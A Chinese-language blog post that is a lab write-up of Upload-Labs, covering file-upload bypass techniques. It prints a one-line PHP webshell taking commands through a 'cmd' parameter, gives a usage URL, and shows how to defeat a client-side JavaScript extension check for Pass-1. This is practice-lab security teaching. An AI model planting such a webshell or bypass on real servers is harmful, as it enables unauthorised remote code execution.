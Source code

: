 ```yaml
---
layout: post
title: "Uplode-Labs 通关笔记"
date: 2019-4-8 20:49:43
author: co0ontty
categories: CTF WEB ALL
tags: CTF WEB ALL 
describe: 根据 Uplode-Labs 总结文件上传绕过技巧 
cover: 'https://i.loli.net/2019/04/08/5cab11a102167.png'
---
```


## 漏洞类型分析
![漏洞类型分析](https://i.loli.net/2019/04/08/5caafd2f23ed2.png)
## 漏洞类型判断    
![思路图](https://i.loli.net/2019/04/08/5caafa634c7f7.png)  
## 简单 shell 制作  
shell.php  
```php
<?php assert($_GET["cmd"])?>
```
使用方法：  
http://104.36.68.99/upload/shell.php?cmd=phpinfo();  
## Pass-1  （前端 JS 判断）
使用 burp 进行抓包直接上传 webshell，发现在没有数据传输的情况下判定为不合规文件这说明在客户端通过 JS 进行判断   

[![屏幕快照 2019-04-08 16.58.50.png](https://i.loli.net/2019/04/08/5cab0e218624d.png)](https://i.loli.net/2019/04/08/5cab0e218624d.png)
[![屏幕快照 2019-04-08 16.59.04.png](https://i.loli.net/2019/04/08/5cab0e2234de6.png)](https://i.loli.net/2019/04/08/5cab0e2234de6.png)
[![屏幕快照 2019-04-08 16.59.06.png](https://i.loli.net/2019/04/08/5cab0e22e9b1e.png)](https://i.loli.net/2019/04/08/5cab0e22e9b1e.png)

将图中标红色的 1.php 改为 1.png  

[![屏幕快照 2019-04-08 17.00.48.png](https://i.loli.net/2019/04/08/5cab0e1fc6cfd.png)](https://i.loli.net/2019/04/08/5cab0e1fc6cfd.png)

成功上传，执行 shell   

[![屏幕快照 2019-04-08 17.12.25.png](https://i.loli.net/2019/04/08/5cab108972e22.png)](https://i.loli.net/2019/04/08/5cab108972e22.png)

### 大佬教的骚操作：
禁用本页 JS，直接上传   
[![01-1.png](https://i.loli.net/2019/04/09/5cabf54fdd3de.png)](https://i.loli.net/2019/04/09/5cabf54fdd3de.png)  
